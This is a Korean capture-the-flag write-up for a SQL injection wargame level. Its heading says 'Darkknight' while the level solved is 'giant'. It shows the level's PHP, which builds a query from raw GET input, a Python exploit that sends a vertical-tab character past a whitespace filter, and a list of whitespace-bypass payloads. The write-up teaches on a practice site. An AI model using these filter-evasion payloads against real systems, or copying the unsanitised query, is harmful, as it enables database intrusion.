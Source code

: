 

## Darkknight Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(strlen($_GET[shit])>1) exit("No Hack ~_~");  
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");  
$query = "select 1234 from{$_GET[shit]}prob_giant where 1";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result[1234]) solve("giant");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/giant_18a08c3be1d1753de0cb157703f75a5e.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['shit'] = chr(0x0b)

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] GIANT Clear")
```
이번 문제는 공백 우회를 해야한다.  
공백 우회하는 방법에는 다음이 있다.
- 괄호 `()`
- 주석 `/**/`
- 더하기 `+`
- 수평탭(Horizontal Tab) `%09`
- 수직탭(Vertical Tab) `%0b`
- 개행(Line Feed) `%0a`
- 다음 페이지(Form Feed) `%0c`
- 복귀(Carriage Return) `%0d`
문제에서 `%20(공백)` `%0a(개행)` `%0d(복귀)` `%09(수평탭)`이 필터링 되어 있고 문자열의 길이가 1글자여야 한다.  
따라서 이를 제외한 `%0b` `%0c`를 이용해 문제를 해결할 수 있다.